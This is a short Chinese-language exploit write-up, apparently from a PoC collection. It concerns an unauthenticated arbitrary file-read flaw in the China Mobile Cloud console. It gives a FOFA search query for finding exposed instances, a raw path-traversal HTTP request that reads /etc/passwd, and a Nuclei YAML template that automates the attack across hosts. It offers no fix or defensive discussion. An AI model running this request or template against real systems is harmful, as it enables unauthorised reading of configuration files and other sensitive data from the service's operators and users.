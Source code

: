 ## 中国移动云控制台存在任意文件读取

中国移动云控制台是一套用于统一查看和管理移动云产品及服务的系统，移动云控制台存在文件任意读取漏洞，未授权攻击者可以利用其读取网站配置文件等敏感信息

## fofa

```
body="op-login-static/favicon.ico" || header="/oauth2/code/opgateway"
```

## poc

```
GET /api/query/helpcenter/api/v2/preview?fileName=../../../../../../../../etc/passwd HTTP/1.1
Host: ip
```

![image-20240602201314531](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406022013615.png)



## Yaml

```
id: cmecloud-console-readfile

info:
  name: 移动云控制台存在任意文件读取
  author: onewin
  severity: high
  description: 移动云控制台存在任意文件读取

http:
- raw:
  - |+
    @timeout: 30s
    GET /api/query/helpcenter/api/v2/preview?fileName=../../../../../../../../etc/passwd HTTP/1.1
    Host: {{Hostname}}

  matchers-condition: and
  matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
          - "root"
        part: body
```


